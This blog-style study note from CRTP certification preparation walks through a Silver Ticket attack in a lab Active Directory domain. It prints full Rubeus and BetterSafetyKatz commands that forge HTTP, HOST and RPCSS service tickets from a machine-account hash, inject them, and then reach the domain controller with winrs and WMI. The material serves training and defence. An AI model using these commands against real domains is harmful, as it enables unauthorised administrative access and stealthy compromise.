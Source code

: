 ```yaml
---
title: Active Directory (AD) | Exploiting Domain Admin (Silver Ticket Attack)
date: 2024-07-03 00:00:00 +0800
categories: [Cert, CRTP]
tags: [Cert,Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


## **Introduction**
A Silver Ticket attack allows attackers to gain unauthorized access to specific services in an Active Directory environment by forging service tickets (TGS). Unlike the Golden Ticket attack, which compromises the entire domain, a Silver Ticket attack uses the hash of a service account instead of the KDC (krbtgt) hash, making it stealthier and harder to detect.

## **Importance of Silver Tickets**
Silver Tickets enable attackers to access particular services like HTTP and WMI without alerting the domain controller. This can bypass security measures, making it a crucial attack method to understand and defend against in maintaining Active Directory security.

## **Understanding HTTP and WMI in This Context**
- **HTTP (Hypertext Transfer Protocol):** In the context of a Silver Ticket attack, the HTTP service on a domain controller may be targeted to execute commands or retrieve information via web interfaces or applications running on the server. By forging a ticket for the HTTP service, an attacker can gain access to web-based management consoles or services hosted on the domain controller.

- **WMI (Windows Management Instrumentation):** WMI is a set of specifications from Microsoft for consolidating the management of devices and applications in a network from Windows computing systems. By targeting WMI, an attacker can execute commands remotely, gather information about the system, and manage various aspects of the operating system.

## **Step 1: Creating a Silver Ticket for HTTP Service**
The first step involves creating a Silver Ticket for the HTTP service on the domain controller. This requires the hash of the machine account for the domain controller (dcorp-dc$).

### **Generate the Silver Ticket:**
Using Rubeus, we generate a Silver Ticket with the following command. This command specifies the service (HTTP), domain, target machine, RC4 hash, SID, and user details.

```bash
C:\AD\Tools>Loader.exe -path C:\AD\Tools\Rubeus.exe -args "silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:c6a60b67476b36ad7838d7875c33c2c3 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt"
```

### **Verify the Service Ticket:**
Verify the generated ticket with Rubeus. Successful verification will show details such as the server name and client name.

```bash
C:\AD\Tools>Loader.exe -path C:\AD\Tools\Rubeus.exe -args "ptt"
```

### **Access the Domain Controller Using winrs:**
Use Windows Remote Shell (winrs) to access the domain controller:

```bash
C:\AD\Tools>winrs -r:dcorp-dc.dollarcorp.moneycorp.local cmd
```

## **Step 2: Creating a Silver Ticket for WMI Access**
For WMI access, we need Silver Tickets for both the HOST and RPCSS services.


### **Generate a Ticket for HOST Service:**
Use BetterSafetyKatz to create a Silver Ticket for the HOST service:

```bash
C:\AD\Tools>BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:c6a60b67476b36ad7838d7875c33c2c3 /startoffset:0 /endin:600 /renewmax:10080 /ptt"
```

### **Generate a Ticket for RPCSS Service:**
Similarly, create a Silver Ticket for the RPCSS service:

```bash
C:\AD\Tools>BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:c6a60b67476b36ad7838d7875c33c2c3 /startoffset:0 /endin:600 /renewmax:10080 /ptt"
```

### **Verify the Tickets:**
Check if the tickets are present using klist. You should see entries for both RPCSS and HOST services.

```bash
C:\Windows\system32>klist
```

### Execute WMI Commands:**
With the tickets in place, run WMI commands on the domain controller. The output will include details about the operating system, confirming our access.

```bash
PS C:\AD\Tools> Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc
```